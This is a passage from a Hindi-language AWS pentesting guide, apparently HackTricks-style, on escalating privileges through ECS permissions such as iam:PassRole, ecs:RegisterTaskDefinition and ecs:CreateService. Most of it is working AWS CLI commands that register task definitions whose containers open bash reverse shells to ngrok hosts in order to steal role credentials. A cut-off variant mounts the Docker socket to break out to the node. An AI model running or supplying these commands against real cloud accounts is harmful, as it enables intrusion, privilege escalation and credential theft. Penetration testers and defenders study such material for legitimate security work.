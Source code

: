 ```bash
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**संभावित प्रभाव:** किसी भी ECS भूमिका को सीधा उन्नत बनाना।

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

पिछले उदाहरण की तरह एक हमलावर **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** या **`ecs:CreateService`** अनुमतियों का दुरुपयोग करने वाला एक हमलावर ECS में एक नया कार्य परिभाषा **उत्पन्न कर सकता है** जिसमें एक **हानिकारक कंटेनर** होता है जो मेटाडेटा क्रेडेंशियल्स को चुरा लेता है और **कम से कम 1 कार्य चल रहा होने के साथ एक नई सेवा बनाकर इसे चला सकता है।**
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**संभावित प्रभाव:** किसी भी ECS भूमिका में सीधा उन्नति।

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

यह परिदृश्य पिछले वालों की तरह है, लेकिन **`iam:PassRole`** अनुमति के बिना।\
यह फिर भी दिलचस्प है क्योंकि यदि आप किसी भी रोल के बिना भी एक अनियमित कंटेनर चला सकते हैं, तो आप **एक विशेषाधिक कंटेनर चला सकते हैं** ताकि नोड से बाहर निकल सकें और **EC2 IAM भूमिका** और नोड में चल रही **अन्य ECS कंटेनर भूमिकाएं** चुरा सकें।\
आप यहां तक पहुंच सकते हैं कि आप **अन्य कार्यों को मजबूर कर सकते हैं जिन्हें EC2 इंस्टेंस के अंदर चलाने के लिए** जिनके परमाणु (क्रेडेंशियल्स) चुराने के लिए आपने उनके बारे में चर्चा की है ([**नोड भूमिका तक**](aws-ecs-privesc.md#privesc-to-node))।

{% hint style="warning" %}
यह हमला केवल तभी संभव है अगर **ECS क्लस्टर EC2** इंस्टेंस का उपयोग कर रहा है और न कि Fargate।
{% endhint %}
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
```